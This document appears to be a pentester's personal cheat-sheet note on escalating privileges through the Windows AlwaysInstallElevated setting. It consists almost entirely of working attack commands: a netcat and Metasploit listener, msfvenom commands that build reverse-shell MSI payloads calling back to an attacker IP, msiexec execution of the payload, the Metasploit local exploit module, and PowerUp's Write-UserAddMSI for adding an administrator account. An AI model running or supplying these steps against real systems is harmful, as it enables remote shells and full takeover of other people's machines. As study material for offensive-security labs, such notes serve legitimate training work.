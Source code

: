 -- -
[[Dark Arts/Privesc/Windows/Enumeration/AlwaysInstallElevated|Enum]]
### CLI
#### Setup listener
on attack box
```bash
# for regular reverse shell
nc -nvlp 9001

# for meterpreter shell
msfconsole
use multi/handler
set lhost 10.10.10.14
set lport 9001
run
```
#### Generate malware
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.14 lport=9001 -f msi -o setup.msi
msfvenom -p windows/x64/reverse_tcp lhost=10.10.10.14 lport 9001 -f msi -o setup.msi
```
#### Exploit
[[Dark Arts I/File Transfer/Windows|File transfer]] the file over to the target
```powershell
msiexec /quiet /qn /i <path to malicious msi>.msi
msiexec /quiet /qn /i C:\Temp\setup.msi

# check user was added to administrators group
net localgroup administrators
```
#### metasploit
If you have a meterpreter session or a shell via metasploit, you can use this module to do exploit this vector as well.
```bash
# on meterpreter/shell session, background it
bg
background
ctrl+z

# load module
use /exploit/windows/local/always_install_elevated
set session <sess num>
set session 1

# exploit
run
```
### GUI
#### Exploit w/ PowerUp.ps1
You will need to [[Dark Arts I/File Transfer/Windows|file transfer]] it to target.
```powershell
# if you haven't already, load in PowerUp
. .\PowerUp.ps1

# Exploit
# Given output like:
# [*] Checking for AlwaysInstallElevated registry key...
# AbuseeFunction : Write-UserAddMSI

# it's telling you that AlwaysInstallElevated registry key is set to one and that you can abuse it using the PowerUp function Write-UserAddMSI
Write-UserAddMSI

# it will then output an MSI called UserAdd
# with GUI access, double click on it and set a username, password, and group you want to be added to, which generally would be "Administrators".
# check if the new user was successfully added
net localgroup administators

# you should see your new user in the group now
# now log in as that user
```